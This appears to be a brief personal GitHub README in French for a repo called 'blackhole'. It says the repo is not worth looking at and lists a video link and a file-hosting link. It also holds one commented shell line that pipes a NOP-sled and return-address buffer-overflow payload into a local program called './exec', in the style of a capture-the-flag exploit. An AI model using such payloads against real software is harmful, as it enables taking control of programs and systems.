 # blackhole

ce repo est perso (mais sans rien de compromettant) donc pas la peine de le regarder

https://www.youtube.com/watch?time_continue=5&v=uAgFf0sC8hM

#	(python -c 'print 90*"\x90"+"\x84\x64\x04\x08"' ; cat) | ./exec

https://mega.nz/#!XkYiDQaZ!Nj2iCXmUrQh8qEgfq_jZPcW32gvmGqUIplwC6PPMCcE
